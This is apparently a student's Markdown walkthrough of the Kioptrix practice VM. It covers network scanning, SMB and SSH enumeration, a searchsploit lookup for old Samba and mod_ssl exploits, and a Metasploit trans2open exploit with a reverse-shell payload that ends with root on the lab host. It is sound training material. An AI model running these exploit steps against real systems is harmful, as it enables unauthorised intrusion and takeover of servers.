


# Flow <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## Scanning & Enummeration

### NetDiscover

```console
sudo netdiscover -r 10.0.2.0/24
```

[NetDiscover results](../../assets/TCM-Sec/Kioptrix/NetDiscover.txt)

### NMap

``` console
sudo nmap -T4 -p- -A 10.0.2.4
```

[nmap tcp scan](../../assets/TCM-Sec/Kioptrix/nmap%20tcp.txt)  

```console
sudo nmap -T4 -sU 10.0.2.4 
```

[nmap upd scan](../../assets/TCM-Sec/Kioptrix/nmap%20udp.txt)

### Nikto

```console
nikto -h http://10.0.2.4
```

[nikto results](../../assets/TCM-Sec/Kioptrix/nikto.txt)

### DirBuster

- Use GET requests only
- Go Faster
- wordlist: "/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt"
  


### Metaspliot

- search for "smb/smb_version"

``` console
msfconsole          // start metasploit
search smb_V        // search for a module to find smb versions
use 0               // use the found module
info                // get infos on how to use the module
set RHOST 10.0.2.4  // set the host (target)
run                 // run the module
```




### smbclient

List smb services

```console
smbclient -L \\\\10.0.2.4\\
```

### Flags  <!-- markdownlint-disable-line MD022 -->
{: .no_toc}

```console
-L : List services
```

### Findings  <!-- markdownlint-disable-line MD022 -->
{: .no_toc}


> 2 hares found!

```console
smbclient -L \\\\10.0.2.4\\ADMIN$
```


```console
smbclient -L \\\\10.0.2.4\\IPC$
```

> Sucess!!!

```console
ls
```


> Network access denied... damn

### ssh

```console
ssh 10.0.2.4
```

```console
Unable to negotiate with 10.0.2.4 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

```console
ssh 10.0.2.4 -oKexAlgorithms=+diffie-hellman-group1-sha1
```

```console
Unable to negotiate with 10.0.2.4 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```


> After fix

```console
The authenticity of host '10.0.2.4 (10.0.2.4)' can't be established.
RSA key fingerprint is SHA256:VDo/h/SG4A6H+WPH3LsQqw1jwjyseGYq9nLeRWPCY/A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.4' (RSA) to the list of known hosts.
kali@10.0.2.4's password: 
```

> No banner with further infos, sadly

## Research

### google

- `Samba 2.2.1a exploit`
- `mod_ssl/2.8.4 exploit`

### searchspliot

```console
searchsploit Samba 2.2.1a 
```

```console
-------------------------------------------------------------- ------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)  | osx/remote/9924.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution             | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                 | linux_x86/dos/36741.py
-------------------------------------------------------------- ------------------------
```

```console
searchsploit mod_ssl 2.8.4
```

```console
---------------------------------------------------------------------------- ----------------------
 Exploit Title                                                              |  Path
---------------------------------------------------------------------------- ----------------------
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow        | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)  | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)  | unix/remote/47080.c
---------------------------------------------------------------------------- ----------------------
```

## Exlpoit

### metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

---
